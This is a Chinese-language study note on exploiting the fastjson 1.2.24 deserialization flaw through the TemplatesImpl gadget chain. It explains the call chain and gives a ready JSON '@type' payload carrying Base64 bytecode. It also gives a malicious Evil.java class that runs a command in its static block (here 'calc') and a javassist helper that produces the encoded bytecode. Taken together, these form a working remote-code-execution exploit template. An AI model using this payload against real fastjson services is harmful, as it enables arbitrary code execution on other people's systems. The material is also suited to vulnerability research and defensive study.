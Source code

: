 # fastjson-1.2.24

* ## **TemplatesImpl**

动态加载字节码那节有提到`TemplatesImpl`：

> `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`中定义了一个内部类`TransletClassLoader `
>
> 存在作用域为`default`的方法`defineClass`
>
> 找到如下调用链：
>
> TemplatesImpl#getOutputProperties() -> TemplatesImpl#newTransformer() -> TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses() -> TransletClassLoader#defineClass()
>
> ```java
> // TemplatesImpl#getOutputProperties()
> public synchronized Properties getOutputProperties() {
>     try {
>         return newTransformer().getOutputProperties();
>     }
>     catch (TransformerConfigurationException e) {
>         return null;
>     }
> }
> // TemplatesImpl#newTransformer()
> public synchronized Transformer newTransformer(){
>     TransformerImpl transformer;
>     transformer = new TransformerImpl(getTransletInstance(), _outputProperties,
>                                       _indentNumber, _tfactory);
> }
> // TemplatesImpl#getTransletInstance()
> private Translet getTransletInstance() {
>     try {
>         if (_name == null) return null;
>         if (_class == null) defineTransletClasses();
>         // ....
>     }
>     AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
>         // ...
> }
> // TemplatesImpl#defineTransletClasses()
> private void defineTransletClasses() {
>     //....
>     TransletClassLoader loader =
>         AccessController.doPrivileged(new PrivilegedAction<TransletClassLoader>() {
>             public TransletClassLoader run() {
>                 return new TransletClassLoader(ObjectFactory.findClassLoader(),
>                                                _tfactory.getExternalExtensionsMap());
>             }
>         });
>     // ...
>     for (int i = 0; i < classCount; i++) {
>         _class[i] = loader.defineClass(_bytecodes[i], pd);
>         // ....
>     }
> }
> ```
>
> - `defineTransletClasses`方法中`_tfactory.getExternalExtensionsMap()` `_tfactory`是`TransformerFactoryImpl`类 为了不抛出异常需要`_tfactory = new TransformerFactoryImpl()`
> - `getTransletInstance`方法中判断`if (_name == null) return null;` 所以要给`_name`赋值（String）
>
> `TemplatesImpl` 中对加载的字节码是有一定要求的：这个字节码对应的类必须 是 `com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet `的子类。
>
> `TemplatesImpl#getTransletInstance()`首先执行`defineTransletClasses()`加载类后，还会对该类进行实例化`(AbstractTranslet) _class[_transletIndex].newInstance();`
>
> 而`getOutputProperties()`正是`TemplatesImpl`的`_outputProperties`属性对应的getter方法

由于更改的一些`TemplatesImpl`私有变量没有 setter 方法，需要使用 `Feature.SupportNonPublicField` 参数。

PayLoad：

> { 
>
> ​	"@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl", 
>
> ​	"\_bytecodes": ["evilCode after Base64"], 
>
> ​	"\_name": "taco", 
>
> ​	"\_tfactory": {}, 
>
> ​	"\_outputProperties": {}, 
>
> }

恶意类Evil.java：

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Evil extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers)
            throws TransletException {}
    public void transform(DOM document, DTMAxisIterator iterator,
                          SerializationHandler handler) throws TransletException {}
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
    public Evil() {
    }
}
```

获取Base64编码后的Evil.class字节码

```java
import javassist.ClassPool;
import java.util.Base64;

public class getPayLoad {
    public static void main(String[] args) throws Exception {
        byte[] code = ClassPool.getDefault().get(Evil.class.getName()).toBytecode();
        System.out.println(Base64.getEncoder().encodeToString(code));
    }
}
```

![image-20230124153256897](../.gitbook/assets/image-20230124153256897.png)

## 局限

需要 `Feature.SupportNonPublicField` 参数